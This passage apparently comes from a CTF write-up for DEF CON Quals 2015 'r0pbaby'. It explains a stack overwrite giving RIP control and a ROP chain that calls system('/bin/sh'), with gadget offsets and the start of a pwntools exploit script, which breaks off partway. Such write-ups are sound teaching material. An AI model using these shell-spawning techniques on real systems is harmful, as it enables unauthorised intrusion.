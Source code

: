 The 'vulnerability' here isn't so much a vulnerability as a blatant transfer of RIP control:

>```c
>memcpy(&savedregs, user_input, index);
>```

savedregs is an IDA keyword indicating the saved stack frame pointer and function return address:

>```asm
>+0000000000000000  s              db 8 dup(?)
>+0000000000000008  r              db 8 dup(?)
>+0000000000000010
>+0000000000000010 ; end of stack variables
>```

So the first QWORD of our input overwrites the old RBP and the second QWORD overwrites the return address giving us RIP control. Since we're dealing with a NX + ASLR + PIE executable we'll have to build a (small) rop-chain consisting of:

1. A gadget that will put the address of the string "/bin/sh" in the RDI register
2. The address of the string "/bin/sh"
3. The address of the function system()

Giving us the rop-chain: <RBP overwrite>< RDI gadget addr >< /bin/sh addr >< system addr >

Luckily all three can be found in libc. Instead of using [a tool](https://github.com/0vercl0k/rp) to find gadgets we relied on the fact that our local and the remote libc versions are identical and simply attached a debugger and searched memory for an offset from the given libc base address. A more robust approach would try to narrow down the specific libc version using function address difference and then dynamically resolve those addresses from the retrieved version.

1. We find a

>```asm
>pop rdi
>ret
>```

gadget at offset -0x7583e6 from our given libc base.

2. The string "/bin/sh" is present in libc:

>```bash
>$ strings r0pbaby_libc.so.6 | grep "/bin/sh"
>/bin/sh
>```

at offset -0x66dcd5 from our given libc base:

3. The address of system() is given to us by the application itself

Tying this together gives us the following exploit:

>```python
>#!/usr/bin/python
>#
># DEF CON CTF Quals 2015
># r0pbaby (BABYSFIRST/1)
>#
># @a: Smoke Leet Everyday
># @u: https://github.com/smokeleeteveryday
>#
>
>from pwn import *
>from struct import pack, unpack
>
>def get_libc_base(h):
>	h.send("1\n")
>	msg = h.recvuntil("4) Exit\n: ")
>	offset = msg.find(":")
>	offset2 = msg.find("\n")